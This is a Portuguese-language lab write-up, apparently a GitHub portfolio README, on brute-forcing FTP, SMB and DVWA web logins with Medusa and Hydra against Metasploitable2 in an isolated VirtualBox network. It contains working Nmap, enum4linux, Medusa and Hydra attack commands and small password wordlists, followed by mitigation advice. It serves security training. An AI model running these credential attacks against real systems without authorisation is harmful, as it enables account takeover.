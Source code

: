 # Simulação: Ataques de Força Bruta com Medusa (Kali + Metasploitable/DVWA)

> **Aviso legal e ético:** Este projeto é estritamente para **ambientes controlados** e fins educacionais. Não execute ataques contra sistemas sem autorização explícita. Uso indevido é crime.

---

## 📌 Resumo
Projeto prático para demonstrar ataques de força bruta (FTP, Web form, SMB) usando **Kali Linux** e **Medusa** em ambiente isolado com **VirtualBox** (Metasploitable2 e DVWA). Inclui: configuração do laboratório, reconhecimento (Nmap), execução de ataques, logs/evidências, e recomendações de mitigação.

---

## 🎯 Objetivos
- Compreender ataques de força bruta em FTP, Web e SMB.
- Usar Kali Linux + Medusa para auditoria em laboratório controlado.
- Documentar procedimentos técnicos com clareza.
- Propor medidas de mitigação.
- Publicar evidências no GitHub como portfólio.

---

## 🧱 Ambiente (setup)
- VirtualBox
- VMs:
  - `KALI-ATTACKER` (Kali Linux)
  - `METASPLOITABLE-ALVO` (Metasploitable2)
  - Opcional: `DVWA-WEB` (DVWA) se preferir separar o alvo web
- Rede: **Host-only** (ex.: 192.168.56.0/24) ou **Internal Network**
- Snapshots: crie snapshots iniciais antes dos testes (boa governança de laboratório)


---

## 🔍 Reconhecimento (Nmap)
Use Nmap para mapear portas e identificar serviços.

```bash
# scan rápido
nmap -sS -Pn -T4 192.168.56.101 -oN nmap_fast.txt

# scan completo (todas portas, versão e OS)
nmap -sS -sV -O -p- 192.168.56.101 -oN nmap_full.txt

# scan focado em serviços relevantes
nmap -p 21,80,139,445 --script vuln,smb-enum-users 192.168.56.101 -oN nmap_services.txt
```

> Resultado esperado: listar serviços FTP (21), HTTP (80), SMB (139/445) e possibilitar enumeração de usuários.

---

## 🗂 Wordlists (exemplos)
Crie a pasta `wordlists/` e adicione listas simples para começar:

- `wordlists/common-usernames.txt`
- `wordlists/small-passwords.txt`
- `wordlists/custom-dict.txt`

Comandos para gerar rapidamente:

```bash
mkdir -p wordlists
echo -e "admin\nmsfadmin\nuser\nguest\ntest" > wordlists/common-usernames.txt
echo -e "123456\npassword\nadmin\nqwerty\nletmein" > wordlists/small-passwords.txt

# combinação simples
for u in admin msfadmin user; do for s in 123 qwe 2025!; do echo "${u}${s}"; done; done > wordlists/custom-dict.txt
```


---

## 🛠 Comandos Medusa — Cenários
> Execute **apenas** contra suas VMs.

### 1) Força bruta FTP (Metasploitable)
```bash
medusa -h 192.168.56.101 -U wordlists/common-usernames.txt -P wordlists/small-passwords.txt -M ftp -t 4 -f
```
- `-t 4`: threads
- `-f`: para ao encontrar sucesso

### 2) Password spraying SMB (usuários enumerados)
Primeiro, obter usuários com `enum4linux`:
```bash
enum4linux -a 192.168.56.101 > enum4linux.txt
```
Spray com Medusa (ajuste módulo conforme versão):
```bash
medusa -h 192.168.56.101 -U wordlists/common-usernames.txt -P wordlists/small-passwords.txt -M smbnt -t 4
```

### 3) Brute force em formulário web (DVWA)
Medusa pode usar `http_form`. Caso não funcione bem, usar Hydra (exemplo abaixo).

```bash
medusa -h 192.168.56.102 -u admin -P wordlists/small-passwords.txt -M http_form \
  -m FORM:username=^USER^&password=^PASS^:POST:/dvwa/vulnerabilities/brute/ -T 4
```
- Ajuste `username`, `password` e a rota do formulário conforme o seu DVWA.

#### Alternativa — Hydra (formulários web)
```bash
hydra -l admin -P wordlists/small-passwords.txt 192.168.56.102 http-post-form \
"/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^:Login failed"
```
- Substitua `Login failed` pelo trecho exato que aparece quando o login falha.

---

## ✅ Validação de acessos (evidências)
Após encontrar credenciais:

- **FTP:** `ftp 192.168.56.101` → login manual com usuário/senha encontrados.
- **SMB:** `smbclient -L //192.168.56.101 -U found_user` e `smbclient //192.168.56.101/share -U user%password`
- **Web:** acessar DVWA com as credenciais no navegador.


---

## 🧾 Logs e arquivos úteis para o repositório
- `desafio-brute-force.md` (este arquivo)
- `wordlists/*`
- `nmap_full.txt`, `nmap_services.txt`
- `enum4linux.txt` (SMB enumeration)
- `medusa_logs.txt` (saída do Medusa)
- `images/` (screenshots organizadas)

---

## 🔐 Recomendações de Mitigação (executável e corporativo)
- Forçar **senhas fortes** (mínimo 12 caracteres, blacklist de senhas comuns).
- Implementar **lockout** após N tentativas (ex.: 5 tentativas em 15 minutos).
- **Rate limiting** e WAF em formulários web.
- Habilitar **MFA** para acessos críticos.
- Monitoramento e alertas (SIEM) para padrões de brute force.
- Minimizar exposição — desabilitar serviços FTP/SMB quando não necessários.
- Políticas de privacidade e rotação de credenciais para contas de serviço.

---

## 📊 Métricas sugeridas (Adicione no relatório para tom executivo)
- Tempo até credencial encontrada (ex.: 00:03:24)
- Número de tentativas por sucesso
- Taxa de tentativas por segundo
- Percentual de credenciais quebradas vs testadas

Esses KPIs deixam seu repositório com cara de projeto _data-driven_ — ótimo para recrutadores.

---

## 🧠 Conclusão & Aprendizados
Escreva um parágrafo curto com:
- O que funcionou
- O que você mudaria (ex.: usar wordlists maiores, usar técnicas de throttling)
- Próximos passos (ex.: integrar ELK/OSSEC para detecção, praticar detection engineering)

---

## 📁 Como reproduzir (passo-a-passo rápido)
1. Restaurar snapshots das VMs.
2. Rodar os scans Nmap (salvar outputs).
3. Executar enumeração SMB (`enum4linux`).
4. Rodar Medusa nos alvos (FTP/SMB/HTTP) com `wordlists/`.
5. Validar acessos manualmente e capturar evidências.

---

## 📎 Referências
- Kali Linux — documentação oficial
- Medusa — documentação oficial
- DVWA — Damn Vulnerable Web Application
- Nmap — manual oficial
- GitHub Markdown — guia de sintaxe

---

## 🔁 Licença
Uso pessoal/educacional — Gustavo Parizi.

---



